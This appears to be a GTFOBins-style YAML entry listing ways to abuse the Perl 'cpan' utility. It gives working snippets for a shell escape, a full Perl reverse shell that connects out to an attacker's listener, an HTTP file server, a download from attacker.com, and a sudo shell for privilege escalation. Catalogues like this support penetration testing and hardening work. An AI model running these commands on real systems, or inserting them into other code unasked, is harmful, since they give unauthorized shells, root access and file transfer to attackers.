 ```yaml
---
functions:
  shell:
    - description: `cpan` lets you execute perl commands with the `! command`.
      code: |
        cpan
        ! exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install the dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'
---
```

